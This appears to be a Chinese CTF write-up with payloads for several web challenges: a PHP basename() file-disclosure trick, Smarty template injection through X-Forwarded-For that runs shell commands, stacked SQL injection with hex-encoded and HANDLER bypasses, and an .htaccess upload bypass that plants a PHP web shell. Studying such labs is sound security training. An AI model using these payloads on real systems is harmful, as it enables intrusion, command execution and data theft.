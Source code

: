 - 首先我们要了解一下 `$_SERVER` 参数。    
```TEXT
案例网址：https://www.shawroot.cc/php/index.php/test/foo?username=root $_SERVER['PHP_SELF'] 得到：/php/index.php/test/foo 
$_SERVER['REQUEST_URI'] 得到：/php/index.php/test/foo?username=root
```
Payload：
```TEXT
/index.php/utils.php/%a0?show+source=1
```
**为什么前面需要添加一个 `/index.php` 呢？**
- 因为当我们传入 `index.php/utils.php` 时，仍然请求的是 `index.php`。
- 但是当 `basename()` 处理后，`highlight_file()` 得到的参数就变成了 `utils.php`，从而我们就实现了任意文件包含。

## [CISCN 2019华东南]Web11
- 看到可以获取 IP，联想到可以伪造 XFF。    
- 看到页尾有 `Smarty`，就能联想到这是 PHP 模板注入。    
![[Picture/屏幕截图 2024-10-23 160853.png]]
Payload：
```
X-Forwarded-For: {system('cat /flag')}
```

## [强网杯 2019]随便注
```TEXT
1';show databases#
1';use supersqli;show tables#
1';use supersqli;desc `1919810931114514`# // 发现看不了数据
1';use supersqli;select flag from `1919810931114514`# //发现也看不了
```
Payload：
```
// 第一种，用十六进制编码绕过
1';SeT @a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql#
// 第二种，用其他函数绕过
1';handler `1919810931114514` open;handler `1919810931114514` read next#
```

## [GXYCTF 2019]BabyUpload
- 图片上传，尝试过一圈后发现只能传 jpg，还有 MIME 检测。    
- 尝试上传 `.htaccess` 文件，来使 jpg 被解析成 php，但后面发现其对 `<?>` 有检测，所以在看过 WP 后知道要修改 `.htaccess` 文件。
```TEXT
<FilesMatch "1.jpg">
SetHandler application/x-httpd-php
</FilesMatch>
```
- 将图片马修改为
```JPG
GIF89a
<script language='php'>
system($_POST['zhu']);
show_source("/flag");
</script>
```
- 上传即可！    
